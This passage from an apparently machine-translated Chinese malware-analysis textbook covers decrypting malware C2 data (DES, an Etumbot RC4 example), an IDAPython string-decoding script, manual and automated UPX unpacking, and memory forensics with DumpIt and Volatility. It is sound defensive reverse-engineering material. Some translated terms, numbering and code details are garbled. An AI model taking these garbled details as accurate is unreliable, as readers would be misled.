在你确定了加密算法和用于加密数据的密钥后，你可以使用PyCryto (https://www.dlitz.net/software/pycrypto/) Python模块来解密数据。要安装PyCrypto，你可以使用apt-get install python-crypto 或 pip install pycrypto 或从源代码中编译它。Pycrypto支持散列算法，如MD2、MD4、MD5、RIPEMD、SHA1和SHA256。它还支持加密算法，如AES、ARC2、Blowfish、CAST、DES、DES3（Triple DES）、IDEA、RC5和ARC4。
下面的Python命令演示了如何使用Pycrypto模块生成MD5、SHA1和SHA256哈希值。

```
# 由于原脚本存在bug，这里给出的是调整过的脚本
>>> from Crypto.Hash import MD5,SHA256,SHA1 
>>> text = "explorer.exe"
>>> MD5.new(str.encode(text)).hexdigest() 
'cde09bcdf5fde1e2eac52c0f93362b79'
>>> SHA256.new(str.encode(text)).hexdigest() '7592a3326e8f8297547f8c170b96b8aa8f5234027fd76593841a6574f098759c' 
>>> SHA1.new(str.encode(text)).hexdigest() '7a0fd90576e08807bde2cc57bcf9854bbce05fe3'
```

为了解密内容，从Crypto.Cipher中导入适当的加密模块。下面的例子显示了如何在ECB模式下使用DES进行加密和解密。

```
# 由于原脚本存在bug，这里给出的是调整过的脚本
>>> from Crypto.Cipher import DES
>>> text = "hostname=blank78"
>>> key = "14834567"
>>> des = DES.new(str.encode(key), DES.MODE_ECB)
>>> cipher_text = des.encrypt(str.encode(text))
>>> cipher_text 
'\xde\xaf\t\xd5)sNj`\xf5\xae\xfd\xb8\xd3f\xf7' 
>>> plain_text = des.decrypt(cipher_text)
>>> plain_text 
'hostname=blank78'
```

### 3. 自定义编码/加密

有时，攻击者会使用自定义的编码/加密方案，这使得难以识别加密（和密钥），也使得逆向工程更加困难。自定义编码方法之一是使用编码和加密的组合来混淆数据；这种恶意软件的一个例子是Etumbot（https://www.arbornetworks.com/blog/asert/illuminating-theetumbot-apt-backdoor/）。Etumbot恶意软件样本在执行时，会从C2服务器获得RC4密钥；然后使用获得的RC4密钥对系统信息（如主机名、用户名和IP地址）进行加密，加密后的内容使用自定义Base64进一步编码，并外流到C2。包含混淆内容的C2通信在下面的截图中显示。关于这个样本的逆向工程细节，请参考作者的演讲和视频演示（https://cysinfo.com/12th-meetup-reversing-decrypting-malware-communications/）。



为了对内容进行解密，需要先用自定义的Base64进行解码，然后用RC4进行解密；这些步骤用以下python命令进行。输出显示解密后的系统信息。

```
>>> import base64
>>> from Crypto.Cipher import ARC4
>>> rc4_key = "e65wb24n5"
>>> cipher_text = "kRp6OKW9r90_2_KvkKcQ_j5oA1D2aIxt6xPeFiJYlEHvM8QMql38CtWfWuYlgiXMDFlsoFoH" 
>>> content = cipher_text.replace('_','/').replace('-','=')
>>> b64_decode = base64.b64decode(content)
>>> rc4 = ARC4.new(rc4_key)
>>> plain_text = rc4.decrypt(b64_decode)
>>> print plain_text
MYHOSTNAME|Administrator|192.168.1.100|No Proxy|04182|
```

一些恶意软件作者没有使用标准编码/加密算法的组合，而是实施了一个全新的编码/加密方案。这种恶意软件的一个例子是APT1集团使用的恶意软件。该恶意软件将一个字符串解密为一个URL；为此，恶意软件调用一个用户定义的函数（在下面的截图中更名为Decrypt_Func），该函数实现了自定义加密算法。Decrypt_Func接受三个参数；第一个参数是包含加密内容的缓冲区，第二个参数是将存储解密内容的缓冲区，第三个参数是缓冲区的长度。在下面的截图中，在执行Decrypt_Func之前暂停了执行，它显示了第1个参数（包含加密内容的缓冲区）。



根据你的目标，你可以分析Decrypt_Func以了解算法的工作原理，然后按照作者的介绍（https://cysinfo.com/8th-meetup-understanding-apt1-malware-techniques-using-malware-analysis-reverse-engineering/）编写一个解密器，或者你可以让恶意软件为你解密内容。要让恶意软件解密内容，只需跨过Decrypt_Func（它将完成执行解密函数），然后检查第2个参数（存储解密内容的缓冲区）。下面的截图显示了包含恶意URL的解密缓冲区（第2参数）。



前面提到的让恶意软件解码数据的技术，如果解密函数被调用的次数不多，是很有用的。如果解密函数在程序中被多次调用，那么使用调试器脚本（在第6章，调试恶意二进制文件中涉及）自动解码过程会比手动操作更有效率。为了证明这一点，请考虑一个64位恶意软件样本的代码片段（在下面的截图中）。请注意恶意软件如何多次调用一个函数（重命名为dec_function）；如果你看一下代码，你会注意到一个加密的字符串被传递给这个函数作为第1个参数（在rcx寄存器中），执行该函数后，eax中的返回值包含存储解密内容的缓冲区的地址。



下面的截图显示了对dec_function的交叉引用；你可以看到，这个函数在程序中被多次调用。



每次调用dec_function时，它都会解密一个字符串。为了解密传递给这个函数的所有字符串，我们可以写一个IDAPython脚本（比如这里显示的那个）。

```
import idautils
import idaapi
import idc
for name in idautils.Names():
   if name[1] == "dec_function":
       ea= idc.get_name_ea_simple("dec_function")
       for ref in idautils.CodeRefsTo(ea, 1):
           idc.add_bpt(ref)
idc.start_process('', '', '')
while True:
   event_code = idc.wait_for_next_event(idc.WFNE_SUSP, -1)
   if event_code < 1 or event_code == idc.PROCESS_EXITED:
       break
   rcx_value = idc.get_reg_value("RCX")
   encoded_string = idc.get_strlit_contents(rcx_value)
   idc.step_over()
   evt_code = idc.wait_for_next_event(idc.WFNE_SUSP, -1)
   if evt_code == idc.BREAKPOINT:
       rax_value = idc.get_reg_value("RAX")
   decoded_string = idc.get_strlit_contents(rax_value)
   print "{0} {1:>25}".format(encoded_string, decoded_string)
   idc.resume_process()

```

由于我们已经将解密函数重命名为dec_function，所以它可以从IDA的名称窗口中访问。前面的脚本在名称窗口中进行迭代，以确定dec_function，并执行以下步骤。

1. 如果dec_function存在，它确定dec_function的地址。
2. 它使用dec_function的地址来确定对dec_function的交叉引用（Xrefs to），它给出了所有dec_function被调用的地址。
3. 3.它在所有调用dec_function的地址上设置断点。
4. 4.它自动启动调试器，当断点在dec_function处被击中时，它从rcx寄存器所指向的地址读取加密的字符串。需要记住的一点是，要使IDA调试器自动启动，一定要选择调试器（如本地Windows调试器），可以从工具栏区域或者选择调试器|选择调试器。
5. 然后，它步入函数，执行解密函数（dec_function），并读取返回值（rax），其中包含解密字符串的地址。然后它打印出解密的字符串。
6. 它重复前面的步骤，对传递给dec_function的每个字符串进行解密。

运行前面的脚本后，加密的字符串和它们相应的解密字符串会显示在输出窗口中，如图所示。从输出中可以看出，恶意软件在运行期间解密了文件名、注册表名和API函数名，以避免被怀疑。换句话说，这些是攻击者想要隐藏的字符串，以避免静态分析。



### 4. 恶意软件解包

攻击者不遗余力地保护他们的二进制文件免受反病毒检测，并使恶意软件分析师难以进行静态分析和反向工程。恶意软件作者经常使用打包器和加密器（见第2章，静态分析，了解打包器的基本介绍以及如何检测它们）来混淆可执行内容。打包器是一个程序，它将一个正常的可执行文件，压缩其内容，并生成一个新的混淆的可执行文件。加密器与打包器一样，不是压缩二进制文件，而是对其进行加密。换句话说，打包器或加密器将可执行文件转变为难以分析的形式。当一个二进制文件被打包时，它透露的信息非常少；你不会发现字符串透露出任何有价值的信息，导入的函数数量会减少，程序指令会被掩盖。为了理解一个打包的二进制文件，你需要移除应用于程序的混淆层（解包）；要做到这一点，首先要了解打包器的工作原理。
当一个正常的可执行文件通过打包器时，可执行文件的内容被压缩，并且它添加了一个解包存根（解压程序）。然后，打包器将可执行文件的入口点修改为存根的位置，并生成一个新的打包可执行文件。当打包后的二进制文件被执行时，解包存根会提取原始二进制文件（在运行期间），然后通过将控制权转移到原始入口点（OEP）来触发原始二进制文件的执行，如下图所描述。



要解开一个打包的二进制文件，你可以使用自动工具，也可以手动操作。自动化方法可以节省时间，但并不完全可靠（有时成功，有时不成功），而手工方法则很费时，但一旦你掌握了技能，它就是最可靠的方法。

#### 4.3 手动拆包

要解开用打包器打包的二进制文件，我们通常要执行以下一般步骤。

1. 第一步是识别OEP；如前所述，当一个打包的二进制文件被执行时，它会提取原始二进制文件，并在某个时间点将控制权转移到OEP。原始入口点（OEP）是恶意软件被打包前的第一条指令（恶意代码开始的地方）的地址。在这一步，我们确定打包的二进制文件中的指令，它将跳转（引导我们）到OEP。
2. 下一步是执行程序，直到达到OEP；其目的是让恶意软件存根在内存中解包，并在OEP处暂停（在执行恶意代码之前）。
3. 第三步涉及将解包的程序从内存中转储到磁盘。
4. 最后一步涉及修复转储文件的导入地址表（IAT）。

在接下来的几节中，我们将详细研究这些步骤。为了演示前面的概念，我们将使用一个用UPX打包器打包的恶意软件（https://upx.github.io/）。在接下来的几节中所涉及的工具和技术应该给你一个手动解包过程的概念。


##### 4.1.1 识别OEP

在本节中，你将了解识别打包二进制文件中的OEP的技术。在下面的截图中，在pestudio(https://www.winitor.com/)中检查打包的二进制文件，显示了许多表明该文件是打包的指标。包装好的二进制文件包含三个部分：UPX0、UPX1和.rsrc。从截图中，你可以看到打包二进制文件的入口在UPX1部分，所以执行从这里开始，这部分包含解压存根，将在运行时解压原始可执行文件。另一个指标是，UPX0部分的原始大小为0，但虚拟大小为0x1f000；这表明UPX0部分不占用磁盘上的任何空间，但它占用了内存空间；具体而言，它占用了0x1f000字节的大小（这是因为恶意软件在内存中解压了可执行文件，并在运行时将其储存在UPX0部分）。另外，UPX0部分具有读、写、执行权限，很可能是因为在解压原始二进制文件后，恶意代码将在UPX0中开始执行。



另一个指标是，打包的二进制文件包含混淆的字符串，当你在IDA中加载二进制文件时，IDA识别出导入地址表（IAT）在一个非标准的位置，并显示以下警告；这是由于UPX打包了所有的部分和IAT。



该二进制文件仅由一个内置函数和5个导入函数组成；所有这些指标都表明，该二进制文件是打包的。



为了找到OEP，你需要在打包的程序中找到将控制权转移到OEP的指令。根据打包程序的不同，这可能很简单，也可能很有挑战性；通常你会关注那些将控制权转移到一个不明确目的地的指令。检查打包的二进制文件中的函数流程图，可以看到跳转到一个位置，这个位置被IDA用红色标出。



红色是IDA表示它不能分析，因为跳转目的地不明确。下面的屏幕截图显示了跳转指令。



双击跳转目的地（byte_40259B）显示，跳转将被带到UPX0（从UPX1）。换句话说，执行时，恶意软件在UPX1中执行解压存根，解开原始二进制文件，复制UPX0中的解压代码，而跳转指令很可能将控制权转移到UPX0中的解压代码（从UPX1）。



在这一点上，我们已经找到了我们认为会跳转到OEP的指令。下一步是在调试器中加载二进制文件，在执行跳转的指令处设置断点，并执行到该指令为止。为了做到这一点，二进制文件被加载到x64dbg中（你也可以使用IDA调试器并遵循同样的步骤），并设置断点，执行到跳转指令。如下面的截图所示，在该跳转指令处暂停执行。



现在你可以假设恶意软件已经完成了解包；现在，你可以按一次F7（步入），这将带你到地址0x0040259B的原始入口点。在这一点上，我们是在恶意软件的第一个指令（解包后）。



##### 4.1.2 用Scylla卸载进程内存

现在我们已经找到了OEP，下一步是将进程内存转储到磁盘。为了转储进程，我们将使用一个名为Scylla（https://github.com/NtQuery/Scylla）的工具；它是一个转储进程内存和重建导入地址表的伟大工具。x64dbg的一大特点是它集成了Scylla，可以通过点击插件|Scylla（或Ctrl+I）启动Scylla。要转储进程内存，当执行在OEP处暂停时，启动Scylla，确保OEP字段被设置为正确的地址，如下所示；如果没有，你需要手动设置，并点击转储按钮，将转储的可执行文件保存到磁盘（在这个例子中，它被保存为packed_dump.exe）。



现在，当你把转储的可执行文件加载到IDA时，你会看到整个内置函数列表（之前在打包的程序中是看不到的），函数代码也不再被混淆，但仍然看不到导入，API调用显示的是地址而不是名字。为了克服这个问题，你需要重建打包后的二进制文件的导入表。


##### 4.1.3 修复导入表

要修复导入表，回到Scylla，并点击IAT自动搜索按钮，它将扫描进程的内存以找到进口表；如果找到，它将用适当的值填充VA和大小字段。要获得导入的列表，请点击Get Imports按钮。使用这种方法确定的导入函数的列表显示在这里。有时，你可能会注意到结果中的无效条目（条目旁边没有勾号）；在这种情况下，右击这些条目，选择Cut Thunk来删除它们。


在使用上一步确定导入的功能后，你需要将补丁应用到转储的可执行文件（packed_dump.exe）中。要做到这一点，点击Fix Dump按钮，这将启动文件浏览器，你可以选择你之前转储的文件。Scylla将用确定的导入函数修补二进制文件，并将创建一个新的文件，文件名在末尾含有_SCY（如packed_dumped_SCY.exe）。现在，当你在IDA中加载打过补丁的文件时，你会看到对导入函数的引用，如图所示。


> 当你处理一些打包器时，Scylla中的IAT自动搜索按钮可能无法找到模块的导入表；在这种情况下，你可能需要付出一些额外的努力，手动确定导入表的开始和导入表的大小，并在VA和大小字段中输入。


#### 4.2 自动拆包
有各种工具可以让你解开用UPX、FSG和AsPack等常见打包器打包的恶意软件。自动工具对于已知的打包器是很好的，可以节省时间，但请记住，它可能并不总是有效的；这时，手动解包技能将有所帮助。ReversingLabs的TitanMist（https://www.reversinglabs.com/open-source/titanmist.html）是一个伟大的工具，由各种打包器签名和解包脚本组成。在你下载并解压后，你可以使用这里显示的命令针对打包的二进制文件运行它；使用-i，你指定输入文件（打包文件），而-o指定输出文件名，-t指定解包器的类型。在后面提到的命令中，TitanMist是针对用UPX打包的二进制文件运行的；注意它是如何自动识别打包器并执行解包过程的。该工具自动识别了OEP和导入表，转储了进程，修正了导入，并将补丁应用到转储的进程中。


```
C:\TitanMist>TitanMist.exe -i packed.exe -o unpacked.exe -t python
Match found!
│ Name: UPX
│ Version: 0.8x - 3.x
│ Author: Markus and Laszlo
│ Wiki url: http://kbase.reversinglabs.com/index.php/UPX │ Description:
   Unpacker for UPX 1.x - 3.x packed files
    ReversingLabs Corporation / www.reversinglabs.com
    [x] Debugger initialized.
    [x] Hardware breakpoint set.
    [x] Import at 00407000.
    [x] Import at 00407004.
    [x] Import at 00407008.[Removed] [x] Import at 00407118.
    [x] OEP found: 0x0040259B.
    [x] Process dumped.
    [x] IAT begin at 0x00407000, size 00000118. [X] Imports fixed.
    [x] No overlay found.
    [x] File has been realigned.
    [x] File has been unpacked to unpacked.exe. [x] Exit Code: 0.
    █ Unpacking succeeded!
```
另一个选择是使用IDA Pro的通用PE解包器插件。这个插件依赖于对恶意软件的调试，以确定代码何时跳转到OEP。关于这个插件的详细信息，请参考这篇文章（https://www.hex-rays.com/products/ida/support/tutorials/unpack_pe/unpacking.pdf）。要调用这个插件，将二进制文件加载到IDA，并选择Edit | Plugins | Universal PE 解包器。运行该插件可以在调试器中启动程序，并且它试图暂停程序，只要打包器完成解包。在IDA中加载UPX打包的恶意软件（与手动解包中使用的样本相同）并启动插件后，会显示以下对话框。在下面的截图中，IDA将开始地址和结束地址设置为UPX0部分的范围；这个范围被视为OEP范围。换句话说，当执行到这一段时（从UPX1开始，它包含解压存根），IDA将暂停程序的执行，给你一个机会采取进一步的行动。

在下面的截图中，注意IDA是如何自动确定OEP地址，然后显示以下对话框的。



如果你点击 "是 "按钮，执行将被停止，进程将被退出，但在此之前，IDA将自动确定导入地址表（IAT），它将创建一个新段来重建程序的导入部分。在这一点上，你可以分析解压后的代码。下面的屏幕截图显示了新重建的导入地址表。


如果你不点击YES按钮，而是点击No按钮，那么IDA将在OEP处暂停调试器的执行，在这一点上，你可以调试已解压的代码或手动转储可执行文件，通过输入适当的OEP（如第4.1节手动解压），使用Scylla等工具修复导入。
在x64dbg中，你可以使用解包脚本执行自动解包，这些脚本可以从https://github.com/x64dbg/Scripts。要解包，确保二进制文件被加载并在入口点暂停。根据你所处理的打包器，你需要在脚本窗格上点击右键，然后选择加载脚本|打开（或Ctrl + O）来加载相应的解包脚本。下面的屏幕截图显示了UPX解包器脚本的内容。



加载完脚本后，通过右键点击脚本窗格并选择运行来运行该脚本。如果脚本成功解压，就会弹出一个消息框说脚本完成了，执行将在OEP处暂停。下面的截图显示了运行UPX解包脚本后，在OEP处自动设置的断点（在CPU窗格中）。现在，你可以开始调试解压后的代码，或者你可以使用Scylla来转储进程并修复导入的代码（如4.1节手动解压中所述）。

> 除了前面提到的工具外，还有其他各种资源可以帮助你进行自动解包。参见Ether Unpack Service: http://ether.gtisc.gatech.edu/web_unpack/, FUU（Faster Universal Unpacker）: https://github.com/crackinglandia/fuu。

### 总结
恶意软件作者使用混淆技术来掩盖数据，并从安全分析人员那里隐藏信息。在这一章中，我们研究了恶意软件作者常用的各种编码、加密和打包技术，我们还研究了不同的策略来消除数据的混淆。在下一章中，你将被介绍到内存取证的概念，你将了解如何使用内存取证来调查恶意软件的能力。


## 10.使用内存取证狩猎恶意软件
在到目前为止所涵盖的章节中，我们看了概念、工具和技术用于分析恶意软件使用静态，动态和代码分析。在本章中，你将理解另一种技术，称为内存取证(或内存分析)。

内存取证(或内存分析)是一种调查性技术，涉及到从计算机的物理内存(RAM)中找到并提取司法证据。一个计算机的内存存储有关系统运行状态的有价值的信息。获取存储并进行分析将为司法提供必要的信息调查，例如系统上正在运行哪些应用程序，哪些对象(文件、注册表等)这些应用程序正在访问、活动网络连接、加载模块、加载的内核驱动程序和其他信息。由于这个原因，内存取证是用于事件响应和恶意软件分析。

在事件响应期间，在大多数情况下，您将无法访问恶意软件样本但您可能只拥有一个可疑系统的内存映像。例如，你可以从安全产品收到关于系统可能存在恶意行为的警报，在这种情况下，您可以获取可疑系统的内存映像，以执行内存司法鉴定确认感染和找到恶意工件。

除了将内存取证用于事件响应之外，还可以将其用作恶意软件分析(针对恶意软件样本)来获得额外的信息关于恶意软件感染后的行为。例如，当你有一个恶意软件示例中，除了执行静态、动态和代码分析之外，您还可以执行在一个孤立的环境中采样，然后获取受感染的计算机内存和检查内存图像，了解恶意软件在感染后的行为。

使用内存取证的另一个原因是，某些恶意软件示例可能不会将恶意组件写入磁盘（仅在内存中）。因此，磁盘取证或文件系统分析可能会失败。在这种情况下，内存取证在查找恶意组件。

一些恶意软件示例通过挂钩或修改操作系统结构。在这种情况下，内存取证可能很有用，因为它可以绕过恶意软件使用的技巧来隐藏操作系统并实时取证工具。本章向您介绍内存取证的概念并涵盖用于获取和分析内存映像的工具。

### 1. 内存取证步骤
是将内存取证用作事件响应的一部分，还是用于恶意软件分析，以下是内存取证中的一般步骤：
* 内存获取：这涉及获取（或转储）内存目标计算机到磁盘。取决于您是否正在调查感染者系统或使用内存取证作为恶意软件分析的一部分，目标计算机可以是您怀疑被感染的系统（在您的网络上），也可以是可能是实验室环境中执行的分析计算机恶意软件示例。
* 内存分析：将内存转储到磁盘后，此步骤涉及分析转储的内存以查找和提取电子证据。
### 2. 内存采集
存储器采集是将易失性存储器（RAM）采集到非易失性存储器的过程存储（磁盘上的文件）。有各种工具可以让您获取物理机。以下是一些允许您获取（转储）的工具物理内存到 Windows 上。其中一些工具是商业性的，其中许多注册后可以免费下载。以下工具适用于两个 x86 （32-位） 和 x64（64 位）计算机：


* Comae Memory Toolkit （DumpIt） by Comae Technologies （免费下载
注册）： https://my.comae.io/
* Belkasoft RAM Capturer（注册后免费下载）：https://belkasoft.com/ram-capturer
* ACCESSData的FTK镜像软件（注册后免费下载）：https://accessdata.com/product-download
* Memoryze by FireEye（注册后免费下载）：https://www.fireeye.com/services/freeware/memoryze.html
* Volexity的扩展收集（商业）：https://www.volexity.com/productsoverview/surge/
* PassMark Software的OSForensics（商业）：https://www.osforensics.com/osforensics.html
* WinPmem（开源），Rekall Memory取证框架的一部分：http://blog.rekall-forensic.com/search?q=winpmem


#### 2.1 使用转储进行内存采集
DumpIt是一款出色的内存采集工具，可让您转储物理内存在视窗上。它支持采集 32 位 （x86） 和 64 位 （x64） 计算机。Dump它是称为Comae内存工具包的工具包的一部分，该工具包由各种独立工具，有助于不同文件之间的内存采集和转换格式。要下载 Comae 内存工具包的最新副本，您需要创建一个通过在 https://my.comae.io 上注册帐户。创建帐户后，您可以登录并下载Comae内存工具包的最新副本。

下载 Comae 工具包后，解压缩存档，然后导航到 32 位或 64 位目录，具体取决于您是要转储 32 位还是 64 位的内存机器。该目录由各种文件组成，包括 DumpIt.exe。在本节中，我们将主要关注如何使用 DumpIt 转储内存。如果您有兴趣了解目录中其他工具的功能，阅读readme.txt文件。

使用 DumpIt 获取内存的最简单方法是右键单击 DumptIt.exe 文件，然后选择以管理员身份运行。默认情况下，DumpIt 将内存转储到文件中，如Microsoft Crash Dump（具有.dmp扩展名），然后可以使用内存进行分析分析工具，如Volatility（下面将介绍）或使用微软调试器，如 WinDbg。

您也可以从命令行运行DumpIt;这为您提供了多种选择。要显示不同的选项，请运行 cmd.exe以管理员身份导航到目录包含 DumpIt.exe，然后键入以下命令：


```
C:\Comae-Toolkit-3.0.20180307.1\x64>DumpIt.exe /?
 DumpIt 3.0.20180307.1
 Copyright (C) 2007 - 2017, Matthieu Suiche <http://www.msuiche.net>
 Copyright (C) 2012 - 2014, MoonSols Limited <http://www.moonsols.com>
 Copyright (C) 2015 - 2017, Comae Technologies FZE <http://www.comae.io>
Hunting Malware Using Memory Forensics Chapter 10
[ 376 ]
Usage: DumpIt [Options] /OUTPUT <FILENAME>
Description:
 Enables users to create a snapshot of the physical memory as a local
file.
Options:
 /TYPE, /T Select type of memory dump (e.g. RAW or DMP) [default: DMP]
 /OUTPUT, /O Output file to be created. (optional)
 /QUIET, /Q Do not ask any questions. Proceed directly.
 /NOLYTICS, /N Do not send any usage analytics information to Comae
Technologies. This is used to
 improve our services.
 /NOJSON, /J Do not save a .json file containing metadata. Metadata are
the basic information you will
 need for the analysis.
 /LIVEKD, /L Enables live kernel debugging session.
 /COMPRESS, /R Compresses memory dump file.
 /APP, /A Specifies filename or complete path of debugger image to
execute.
 /CMDLINE, /C Specifies debugger command-line options.
 /DRIVERNAME, /D Specifies the name of the installed device driver image.
```
从命令行获取 Microsoft 故障转储的内存，并保存输出到您选择的文件名，请使用 /o 或 /OUTPUT 选项，如下所示：

```
C:\Comae-Toolkit-3.0.20180307.1\x64>DumpIt.exe /o memory.dmp
 DumpIt 3.0.20180307.1
 Copyright (C) 2007 - 2017, Matthieu Suiche <http://www.msuiche.net>
 Copyright (C) 2012 - 2014, MoonSols Limited <http://www.moonsols.com>
 Copyright (C) 2015 - 2017, Comae Technologies FZE <http://www.comae.io>
 Destination path: \??\C:\Comae-Toolkit-3.0.20180307.1\x64\memory.dmp
 Computer name: PC
 --> Proceed with the acquisition ? [y/n] y
 [+] Information:
 Dump Type: Microsoft Crash Dump
 [+] Machine Information:
 Windows version: 6.1.7601
 MachineId: A98B4D56-9677-C6E4-03F5-902A1D102EED
 TimeStamp: 131666114153429014
 Cr3: 0x187000
 KdDebuggerData: 0xfffff80002c460a0
 Current date/time: [2018-03-27 (YYYY-MM-DD) 8:03:35 (UTC)]
 + Processing... Done.
  Acquisition finished at: [2018-03-27 (YYYY-MM-DD) 8:04:57 (UTC)]
 Time elapsed: 1:21 minutes:seconds (81 secs)
 Created file size: 8589410304 bytes (8191 Mb)
 Total physical memory size: 8191 Mb
 NtStatus (troubleshooting): 0x00000000
 Total of written pages: 2097022
 Total of inacessible pages: 0
 Total of accessible pages: 2097022
 SHA-256:
3F5753EBBA522EF88752453ACA1A7ECB4E06AEA403CD5A4034BCF037CA83C224
 JSON path: C:\Comae-Toolkit-3.0.20180307.1\x64\memory.json
```
获取内存作为原始内存转储，而不是默认的 Microsoft 崩溃dump，您可以使用 /t 或 /TYPE 选项指定它，如下所示：


```
C:\Comae-Toolkit-3.0.20180307.1\x64>DumpIt.exe /t RAW
 DumpIt 3.0.20180307.1
 Copyright (C) 2007 - 2017, Matthieu Suiche <http://www.msuiche.net>
 Copyright (C) 2012 - 2014, MoonSols Limited <http://www.moonsols.com>
 Copyright (C) 2015 - 2017, Comae Technologies FZE <http://www.comae.io>
 WARNING: RAW memory snapshot files are considered obsolete and as a
legacy format.
 Destination path: \??\C:\Comae-Toolkit-3.0.20180307.1\x64\memory.bin
 Computer name: PC
 --> Proceed with the acquisition? [y/n] y
 [+] Information:
 Dump Type: Raw Memory Dump
 [+] Machine Information:
 Windows version: 6.1.7601
 MachineId: A98B4D56-9677-C6E4-03F5-902A1D102EED
 TimeStamp: 131666117379826680
 Cr3: 0x187000
 KdDebuggerData: 0xfffff80002c460a0
 Current date/time: [2018-03-27 (YYYY-MM-DD) 8:08:57 (UTC)]
[.......REMOVED.........]
```
如果希望从由大内存组成的服务器获取内存，可以使用 /R或 DumpIt 中的 /COMPRESS 选项，这将创建一个 .zdmp（Comae 压缩故障转储）文件，这减小了文件大小，也使获取速度更快。转储文件 （.zdmp） 可以然后使用Comae星尘企业平台进行分析：https://my.comae.io。为更多详细信息，请参阅以下博客文章：https://blog.comae.io/rethinkinglogging-for-critical-assets-685c65423dc0。

> 在大多数情况下，可以通过以下方式获取虚拟机 （VM） 的内存挂起虚拟机。例如，在 执行恶意软件样本后VMware Workstation/VMware Fusion，您可以暂停虚拟机，这会会将guest的内存 （RAM） 写入扩展名为 .vmem 的文件主机的磁盘。对于那些应用程序（如VirtualBox），其中内存无法通过挂起来获取，然后您可以使用 DumpIt在客户机器内部。


### 3. Volatility浏览
获取受感染系统的内存后，下一步是分析获取的内存内存镜像。Volatility（http://www.volatilityfoundation.org/releases）是一个开放用Python编写的高级内存取证框架，允许您进行分析并从内存图像中提取电子证据。Volatility可以在各种平台上运行（Windows，macOS和Linux），它支持从32位和64位分析内存Windows、macOS 和 Linux 操作系统的版本。

#### 3.1 安装Volatility
Volatility以多种格式分发，可以从 http://www.volatilityfoundation.org/releases 下载。在撰写本书时，最新版本Volatility为2.6版。取决于您要运行的操作系统波动开启，请按照相应操作系统的安装过程操作。

##### 3.1.1 Volatility独立可执行文件
开始使用 Volatility 的最快方法是使用独立的可执行文件。独立可执行文件是为Windows，macOS和Linux操作系统分发的。独立可执行文件的优点是，您不需要安装Python解释器或Polution依赖项，因为它与Python 2.7解释器和所有必需的依赖项打包在一起。

在 Windows 上，下载独立可执行文件后，您可以通过从命令行使用 -h （--help） 选项执行独立可执行文件来检查 Volatility 是否已准备好使用，如下所示。帮助选项显示Volatility中可用的各种选项和插件：

```
C:\volatility_2.6_win64_standalone>volatility_2.6_win64_standalone.exe -h Volatility Foundation Volatility Framework 2.6
Usage: Volatility - A memory forensics analysis platform.
   Options:
     -h, --help            list all available options and their default
values.
                           Default values may be set in the configuration file
                           (/etc/volatilityrc)
     --conf-file=.volatilityrc
                           User based configuration file
     -d, --debug           Debug volatility
[.....REMOVED....]
```
以同样的方式，您可以下载适用于 Linux 或 macOS 的独立可执行文件，并使用 -h（或 -- help）选项执行独立可执行文件来检查 Volatility 是否已准备好使用，如下所示：
```
> $ ./volatility_2.6_lin64_standalone -h 
> # ./volatility_2.6_mac64_standalone -h
```
##### 3.1.2 Volatility源包
Volatility也作为源包分发;您可以在Windows，macOS或Linux操作系统上运行它。Volatility依赖于各种插件来执行任务，其中一些插件依赖于第三方Python包。要运行 Volatility，您需要安装 Python 2.7 Interpreter 及其依赖项。网页：https://github.com/volatilityfoundation/volatility/wiki/Installation#recommendation-packages包含一些Volquisive插件所需的第三方Python软件包列表。可以通过阅读文档来安装这些依赖项。安装完所有依赖项后，下载 Volatility 源代码包，将其解压缩，然后运行 Volatility，如下所示：
```
$ python vol.py -h
Volatility Foundation Volatility Framework 2.6
Usage: Volatility - A memory forensics analysis platform.
   Options:
     -h, --help             list all available options– and their default
values.

Default values may be set in the configuration file
                            (/etc/volatilityrc)
     --conf-file=/root/.volatilityrc
                            User based configuration file
     -d, --debug            Debug volatility
   [...REMOVED...]
```

本书中提到的所有例子都使用了vol Python脚本源包(Python vol.py)。你可以自由选择一个独立的可执行文件，但要记住将python vol.py替换为独立的可执行文件名称。
#### 3.2 使用Volatility
Volatility由各种插件组成，它可以从内存映像中提取不同的信息。 python vol.py -h  选项显示支持的插件。例如，如果你想要列出内存映像中正在运行的进程，你可以使用pslist这样的插件，或者如果你想要列出网络连接，你可以使用不同的插件。不管您使用的插件是什么，您都将使用以下命令语法。使用-f，您可以指定内存映像文件的路径，而——profile告诉volatile内存映像是从哪个系统和体系结构获得的。插件可以根据你想从内存映像中提取的信息类型而变化:
```
$ python vol.py -f <memory image file> --profile=<PROFILE> <PLUGIN> [ARGS]
```
下面的命令使用pslist插件列出列表中正在运行的进程
从运行Service Pack 1的Windows 7(32位)获取的内存映像:
```
$ python vol.py -f mem_image.raw --profile=Win7SP1x86 pslist
Volatility Foundation Volatility Framework 2.6
Offset(V) Name PID PPID Thds Hnds Sess Wow64 Start
---------- ---------- ---- ---- ---- ---- ---- ----- --------------------- 0x84f4a958 System 4 0 86 448 ---- 0 2016-08-13 05:54:20 0x864284e0 smss.exe 272 4 2 29 ---- 0 2016-08-13 05:54:20 0x86266030 csrss.exe 356 340 9 504 0 0 2016-08-13 05:54:22 0x86e0a1a0 wininit.exe 396 340 3 75 0 0 2016-08-13 05:54:22 0x86260bd0 csrss.exe 404 388 10 213 1 0 2016-08-13 05:54:22 0x86e78030 winlogon.exe 460 388 3 108 1 0 2016-08-13 05:54:22
   [....REMOVED....]
```
有时候，您可能不知道向Volatility提供什么配置文件。在这种情况下，你可以使用imageinfo插件，它将决定正确的配置文件。下面的命令显示多个由imageinfo插件建议的配置文件;你可以使用任何建议的配置文件:
```
$ python vol.py -f mem_image.raw imageinfo
Volatility Foundation Volatility Framework 2.6
INFO : volatility.debug : Determining profile based on KDBG search...
Suggested Profile(s): Win7SP1x86_23418, Win7SP0x86, Win7SP1x86 AS Layer1 : IA32PagedMemoryPae (Kernel AS)
AS Layer2 : FileAddressSpace
   (Users/Test/Desktop/mem_image.raw)
                        PAE type : PAE
                             DTB : 0x185000L
                            KDBG : 0x82974be8L
            Number of Processors : 1
       Image Type (Service Pack) : 0
                  KPCR for CPU 0 : 0x82975c00L
               KUSER_SHARED_DATA : 0xffdf0000L
             Image date and time : 2016-08-13 06:00:43 UTC+0000
       Image local date and time : 2016-08-13 11:30:43 +0530
```

> 大多数的Volatility插件，比如pslist，依赖于从Windows操作系统结构中提取信息。这些结构在不同版本的Windows中有所不同;配置文件(——profile)告诉volatile使用哪些数据结构、符号和算法。

